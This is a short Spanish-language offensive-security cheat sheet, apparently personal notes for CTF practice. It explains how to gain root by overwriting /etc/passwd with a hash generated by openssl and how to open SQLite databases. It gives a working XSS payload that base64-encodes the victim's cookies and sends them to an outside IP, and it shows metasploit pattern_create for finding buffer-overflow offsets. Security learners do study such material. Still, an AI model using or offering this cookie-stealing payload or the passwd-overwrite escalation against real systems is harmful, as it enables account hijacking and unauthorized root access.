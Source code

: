 ## Abuse /etc/passwd

Si tienes manera de sobre escribir el archivo /etc/passwd basicamente te podrias ahcer del usuario root poniendo la contraseña que tu elijas para lo cual usa el siguiente comando (-1 para MD5, -5 SHA256, -6 SHA512 etc)

<img width="502" alt="image" src="https://github.com/user-attachments/assets/d3f4a92b-7b8d-456f-b243-14895dbf2b9a">


```
openssl passwd -5 -salt tuSal tuContraseña # Puede ser lo mismo el salt como la contraseña

nombre_de_usuario: el nombre de la cuenta del usuario.
x: indica que la contraseña del usuario se almacena en /etc/shadow.
UID: el número de identificación del usuario.
GID: el número de identificación del grupo principal del usuario.
información_completa: generalmente el nombre completo del usuario o una descripción.
directorio_home: el directorio inicial del usuario.
shell_predeterminada: la shell que se inicia al ingresar el usuario.

```



## SQLite

Kali ya trae un paquete para poder abrir este tipo de archivo es sqlite3 

```
sqlite3 db.sqlite

```
Una vez dentro de la herramienta, puedes usar comandos SQL para ver las tablas (.tables), esquemas (.schema) y realizar consultas (SELECT * FROM tabla;).

## XSS

Para robar cookies usa:

```
<script>var i=new Image(); i.src="http://10.10.14.8/?cookie="+btoa(document.cookie);</script>
```

Cabe destacar que la funcion btoa es para pasar a base64 ideal si no sabemos que caracters podriamos perder...


> https://github.com/payloadbox/xss-payload-list

## Probar limites

Para probar limites y saber donde esta el limite como para los BoF usa los patrones.

```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 255 
```

